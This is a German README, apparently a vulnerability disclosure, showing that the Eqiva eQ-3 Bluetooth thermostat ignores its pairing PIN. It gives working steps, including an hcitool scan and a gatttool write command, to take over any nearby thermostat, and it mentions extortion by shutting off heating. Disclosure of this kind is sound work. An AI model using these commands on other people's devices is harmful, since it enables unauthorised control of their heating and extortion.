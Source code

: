 # Sicherheitslücke in Thermostat Eqiva eQ-3

Bei dem Eqiva eQ-3 handelt es sich um ein smartes Heizungsthermostat mit einer integrierten Bluetooth LE Schnittstelle. Der Hersteller empfiehlt folgende App zum Steuern des Thermostates per Smartphone: [Calor BT](https://play.google.com/store/apps/details?id=de.eq3.ble.android&hl=de).

Verbindet man sich per App mit dem Heizungsthermostat wird ein vierstelliger PIN Code abgefragt der am Thermostat abgelesen werden muss. Ein Sicherheitsfeature damit sich nur jemand mit dem Thermostat verbinden kann, der auch physischen Zugang zu ihm hat, z.B. in der eigenen Wohnung.

Interessanterweise spielt dieser PIN Code jedoch keine Rolle, wenn man direkt BLE Befehle mit entsprechenden Werkzeugen an den Thermostaten sendet (siehe unten). **Dies bedeutet, dass jeder Thermostat in Reichweite (ca. 40m bei Bluetooth LE [1])- fern- und damit fremdgesteuert werden kann.**

Angriffsgründe reichen von dem einfachen Verstellen der Einstellungen bis hin zu Erpressungsszenarien wie dem Abstellen der Heizung bis ein entsprechender Geldbetrag bezahlt wurde.

**Im Moment kann nur dazu geraten werden die Bluetoothfunktion im Thermostat zu deaktivieren.**

PS:
*Wie dieses Gerät Testsieger bei Stiftung Warentest werden konnte ist mir ein Rätsel.*

### Android

##### 1. nRF Connect installieren

 https://play.google.com/store/apps/details?id=no.nordicsemi.android.mcp&hl=de

##### 2. Mit Thermostat verbinden
![01-nrf-connect](/img/01-nrf-connect.png)


##### 3. BLE Charactristic auswählen
![02-nrf-connect](/img/02-nrf-connect.png)


##### 4. Boostmodus aktivieren
![03-nrf-connect](/img/03-nrf-connect.png)

### Linux (getestet mit Raspberry Pi 3 und Raspbian)

##### 1. Nach BLE Geräten suchen

 `hcitool lescan`

 ![HCI Tool Scan Example](/img/hcitool-scan.png)

 Gerät mit Name "CC-RT-BLE" ist der Thermostat.

 ##### 2.  Boostmodus aktivieren (Ventil wird voll geöffnet)

 `gatttool -b 00:1A:22:09:DA:10 --char-write-req --handle=0x0411 --value=4501`

 *Entsprechend die MAC-Adresse austauschen.*



Weitere Informationen unter:

[API Dokumentation von Heckie75 bei Github](https://github.com/Heckie75/eQ-3-radiator-thermostat/blob/master/eq-3-radiator-thermostat-api.md)

[FHEM Forum](https://forum.fhem.de/index.php/topic,39308.0.html)

Referenzen:

[1] - https://de.wikipedia.org/wiki/Bluetooth_Low_Energy
